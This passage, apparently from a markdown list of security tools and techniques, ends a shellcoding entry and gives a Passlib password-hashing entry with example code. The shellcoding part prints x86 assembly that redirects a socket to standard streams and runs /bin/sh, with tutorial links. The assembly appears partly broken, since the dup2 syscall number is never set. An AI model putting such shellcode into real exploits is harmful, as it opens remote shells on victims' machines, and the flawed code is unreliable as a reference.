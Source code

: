         ; dup2(s, 0, 1, 2)
        xor ebx, ebx
        xor ecx, ecx
        xor edx, edx
        mov bl, 0x3
        mov cl, 0x2
        int 0x80

        ; execve("/bin/sh", NULL, NULL)
        xor eax, eax
        xor ebx, ebx
        mov al, 0x0B
        push edx
        push 0x68732F2F ; "//bin/sh"
        push 0x6E69622F ; "/bin"
        mov ebx, esp
        xor ecx, ecx
        xor edx, edx
        int 0x80
    ```
- **Learning Resources:**
    - [Shellcoding Basics](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)
    - [Shellcoding on Linux](https://dhavalkapil.com/blogs/Shellcode-Injection/)

---

## Passlib
- **Description:** Passlib is a Python library that provides hashing and password storage functionality. It's designed to securely manage user passwords in applications.
- **Installation:** Passlib can be installed using pip: `pip install passlib`.
- **Utilization:** Passlib is used for securely hashing and verifying passwords, making it ideal for user authentication.
- **Use Cases:** User authentication, password hashing.
- **Example Code 1: Hashing a Password:**
    ```python
    from passlib.hash import pbkdf2_sha256

    password = "mysecretpassword"
    hash = pbkdf2_sha256.hash(password)
    ```
- **Example Code 2: Verifying a Password:**
    ```python
    from passlib.hash import pbkdf2_sha256

    stored_hash = "..."
    password = "mysecretpassword"
    is_valid = pbkdf2_sha256.verify(password, stored_hash)
    ```
- **Learning Resources:**
    - [Passlib Documentation](https://passlib.readthedocs.io/en/stable/)
    - [Password Hashing in Python with Passlib](https://dev.to/jamesnza/password-hashing-in-python-with-passlib-6b7)

---